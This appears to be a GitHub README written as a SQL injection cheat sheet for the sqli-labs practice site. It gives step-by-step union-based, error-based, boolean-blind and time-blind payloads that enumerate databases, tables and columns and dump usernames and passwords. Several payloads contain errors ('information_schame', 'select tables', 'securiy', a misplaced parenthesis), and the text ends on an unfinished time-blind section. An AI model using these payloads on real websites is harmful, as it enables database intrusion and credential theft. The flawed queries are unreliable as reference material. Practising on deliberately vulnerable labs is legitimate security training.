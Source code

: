 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

Some useful url encode
1. %20: " "
2. %23: "#"
3. %3a: ":"
4. %7e: "~"
5. %27: "'"
...

# Content
- [1. Union-based](#1-Union-based-Injection)
- [2. Error-based](#2-Error-based-Injection)
- [3. Boolean Blind](#3-Boolean-Blind-Injection)

## 1. Union-based Injection

Here are some basic steps of union injection.

### 1.1 Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings:
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 1.2 Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try 
```
?id=1' order by 1--+
```
and then 
```
?id=1' order by 2--+
```
until errors. That's the column number.

### 1.3 Check out the display data

Suppose that there is three columns in total.
```
?id=-1' union select 1,2,3 --+
```
If the output contains 2 and 3, we can set payload in position 2 and 3, where will show the data we want.

Note that there is always a **LIMIT 0,1** in the query. And you need to make the select of $id not work.

### 1.4 Blast databases

The current database you are using is **database()**
Use following to show it:
```
?id=-1' union select 1,database(),3 --+
```

If you want to show the all databases, try following:
```
?id=-1' union select 1,group_concat(schema_name),3 from information_schame.schemata --+
```

### 1.5 Blast tables

You always need to know the tables in your current database, blast tables like this:

```
?id=-1' union select 1,group_concat(table_name),3 from information_schame.tables where table_schema=database() --+
```

You can replace the database() with the database name you found in step 4.

### 1.6 Blast columns

Say you want to blast all columns of table "users" in current database. 

```
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users' --+
```

### 1.7 Dump the data

Finally, you got the "id,username,password" columns in table users. 
```
?id=-1' union select 1,group_concat(username, 0x3a, password),3 from users --+
```

## 2. Error-based Injection

### 2.1 floor

```
?id=1' union select 1,count(*),concat(0x3a,(select user()),0x3a) a from information_schema.columns group by a--+
```
Replace the (select user()) to others to upload payload.

### 2.2 Double out of range
```
?id=1' union select (exp(~(select * from (select user())a))),2,3 --+
```
Same as floor, replace the (select user())

### 2.3 *Bigint overflow
```
?id=1' union select 1,(!(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)-~0),3 --+
```
Here 'a' is alias.

### 2.4 *Xpath

There is function called *updatexml* used to update xml doc.
> Usage: updatexml(target_xml_doc, xml_path, content)

```
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1),0x7e),1)--+
```
You can also use group_concat(table_name) without limit 0,1, but notice that updatexml error can only return 32 char once.

Use **substr** to show the full content in several times
```
?id=1' and updatexml(1,substr(concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),30),1)--+
```

## 3. Boolean Blind Injection

### 3.1 string interception

#### 3.1.1 MID

> Usage: mid(column_name, start[, length])
> If don't have length argument, mid will return all content begin with start

Note that the start begin index with 1 while LIMIT begin with 0

```
?id=1' and mid((select tables from information_schema.tables where table_schema=database() LIMIT 0,1),1,1)>'a' --+
```

In some case you may need to use ascii value instead of 'a'.(such as the forbidden of single quote)

Use ord() or ascii() function to compare:

```
?id=1' and ascii(mid((select table_name from information_schema.tables where table_schema=database() LIMIT 0,1),1,1))=101 --+
```

#### 3.1.2 Substr

The usage of substr is same as mid.

#### 3.1.3 left

Similar to mid.
> left(database(),1)>'s'

Use dictionary order to compare:
> left(database(),3)>'us'

### 3.2 regexp injection

Return 1 if match correctly, else 0.

regexp can always use with *if*
> if(expression, epx1, epx2)

if expression right return epx1, else epx2
```
select * from users where id = 1 and 1 = (user() regexp '^us');
select * from users where id = 1 and 1 = (if(user() regexp '^us'),1,0)
```

We match 'user' follow a certain order like this:
'^[a-z]' -> '^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' > '^user[a-z]' > FALSE
```
?id=1' and 1=(select 1 from information_schema.tables where table_schema='securiy' and table_name regexp '^u[a-z]' LIMIT 0,1) --+
```
Note that LIMIT 0,1 is necessary otherwise an (subquery returns more than 1 row) error will occur.

## 4. Time Blind Injection

### 4.1 sleep()

> sleep() function always use with if

```
?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(5))--+
```

method 2: use benchmark()






